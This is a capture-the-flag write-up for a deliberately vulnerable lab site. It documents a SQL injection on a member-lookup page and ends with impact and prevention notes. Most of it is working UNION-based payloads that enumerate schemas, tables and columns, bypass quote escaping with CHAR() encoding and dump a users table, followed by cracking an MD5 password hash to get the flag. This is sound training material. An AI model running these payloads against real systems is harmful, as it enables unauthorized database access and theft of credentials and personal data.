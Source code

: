 # SQL Injection

### 🏴 Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## 📌 Extract

Page: [http://{IP}/?page=member](http://{ip}}/?page=survey)

When we put an ID in the input, the website will do an SQL request to give us informations about the user. And when we put a random input, we can see an SQL error.

```python
"1 UNION SELECT NULL, schema_name FROM information_schema.schemata--"
```

With this input, the website gives us all the databases he has access to. 

```
ID: 1 UNION SELECT NULL, schema_name FROM information_schema.schemata--
First name:
Surname : Member_Brute_Force
```

```
ID: 1 UNION SELECT NULL, schema_name FROM information_schema.schemata--
First name:
Surname : Member_Sql_Injection
```

```
ID: 1 UNION SELECT NULL, schema_name FROM information_schema.schemata--
First name:
Surname : Member_guestbook
```

```
ID: 1 UNION SELECT NULL, schema_name FROM information_schema.schemata--
First name:
Surname : Member_images
```

```
ID: 1 UNION SELECT NULL, schema_name FROM information_schema.schemata--
First name:
Surname : Member_survey
```

And thanks to this, we can get 3 differents flags.

This section is about Member_Sql_Injection.

Now we need to get the tables of the database, thanks to this input : 

```jsx
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = {stringToChar('Member_Sql_Injection')}—
```

stringToChar is a function that transform the string “Hello” into Char : CHAR(72, 101, 108, 108, 111)

Because the website does not accept the quotes (it puts a ‘\’ before)

Now that we have the tables we need the columns of it:

```jsx
1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_schema = {stringToChar('Member_Sql_Injection')} AND table_name = {stringToChar('users')}—
```

Output:

```
Surname : user_id
Surname : first_name
Surname : last_name
Surname : town
Surname : country
Surname : planet
Surname : Commentaire
Surname : countersign
```

Now that we have the columns, we can get all the data !

```python
"1 UNION SELECT NULL, CONCAT(user_id, CHAR(10), first_name, CHAR(10), last_name, CHAR(10), town, CHAR(10), country, CHAR(10), planet, CHAR(10), Commentaire, CHAR(10), countersign) FROM Member_Sql_Injection.users--"
```

The CHAR(10) is just a ‘\n’, it will be better on the website

And in the output we have all the users, but the one which is interesting 

```
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

We convert 5ff9d0165b4f92b14994e5c685cdce28 in MD5 which is: FortyTwo

We lowered the string and convert it into Sh256, and we are done !

fortytwo → 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## 🎯 Use

This vulnerability lets attackers manipulate SQL queries to gain unauthorized access to the database. Without proper validation, they can:

- **Access sensitive data** such as user credentials or personal information.
- **Modify or delete data** to disrupt the application's functionality.
- **Escalate privileges** by altering database permissions.
- **Bypass authentication** mechanisms to gain unauthorized access.

## 🔒 Prevention

1. **Use Prepared Statements:** Always use parameterized queries to separate SQL code from data.
2. **Input Validation:** Validate and sanitize all user inputs to prevent malicious SQL code.
3. **Least Privilege Principle:** Limit database permissions to only what is necessary.
4. **Stored Procedures:** Use stored procedures to abstract SQL queries from user input.
5. **Regular Audits:** Monitor and audit database access and queries for suspicious activity.

## 📚 Documentation

📖 [OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)